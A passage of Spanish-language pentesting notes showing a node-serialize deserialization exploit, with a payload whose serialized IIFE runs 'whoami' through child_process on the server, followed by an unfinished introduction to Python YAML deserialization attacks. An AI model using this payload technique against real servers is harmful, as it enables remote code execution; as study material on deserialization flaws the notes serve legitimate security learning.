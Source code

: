 ```javascript
const serialize = require('node-serialize'); 

const payload = {
username: function(){require('child_process').exec('whoami', (err, stdout, stderr) => stdout ? console.log(stdout) : null)},
country: "Argentina",
city: "Buenos Aires"
}

console.log(serialize.serialize(payload))
```

Esta función, que se encarga de serializar el payload, nos arrojaria lo sig: 

`{"username":"_$$ND_FUNC$$_function(){require('child_process').exec('whoami', (err, stdout, stderr) => stdout ? console.log(stdout) : null)}","country":"Argentina","city":"Buenos Aires"}`

De manera que nuestra función `_$$ND_FUNC$$_function(){require('child_process').exec('whoami', (err, stdout, stderr) => stdout ? console.log(stdout) : null)}` devera ser invocada indemediatamente agregado `()` alfinal de esta, 

**IIFE**: `_$$ND_FUNC$$_function(){require('child_process').exec('whoami', (err, stdout, stderr) => stdout ? console.log(stdout) : null)}()` 

De esta manera, cuando el servidor deserialize la data, gracias a nuestra **IIFE**, se ejecutara el comando del lado del servidor, dejandonos así posiblidad de [[RCE - (Remote Command Execution)]]. 

----
# YAML deserialization attack (Python)

Un **ataque de Deserialización Yaml (DES-Yaml)** es un tipo de vulnerabilidad que puede ocurrir en aplicaciones Python que usan **YAML (Yet Another Markup Language)** para serializar y deserializar objetos. 

La vulnerabilidad se produce cuando un atacantes es capaz de controlar la entrada YAML que se pasa a una función de deserialización en la aplicación. Si el código de la aplicación no valida adecuadamente la entrada YAML, puede permitir que un atacante inyecte código malicioso en el objeto deserializado. 

###### Explotation
Para explotar un ataque de deserialización cuando reconocemos que esta yaml corriendo por detrás, es importante que, como siempre, hay que tener en cuenta en caso, esto puede ser muy fácil así como difícil dependiendo la sanitización de la aplicación web, entre otros factores. 
Existen páginas como [esta](https://www.pkmurphy.com.au/isityaml/) en las cuales enseñan como se podría llegar a ejecutar comandos a través de un ataque de deserialización YAML.  

Por ejemplo, si tenemos una aplicación la cual corre python y vemos que se nos redirige a una url tal que así: 

`..../eWFtbDogVGhlIGluZm9ybWF0aW9uIHBhZ2UgaXMgc3RpbGwgdW5kZXIgY29uc3RydWN0aW9uLCB1cGRhdGVzIGNvbWluZyBzb29uIQ==`

Podemos intuir que es una cadena en base64, por lo que si la decodeamos: 
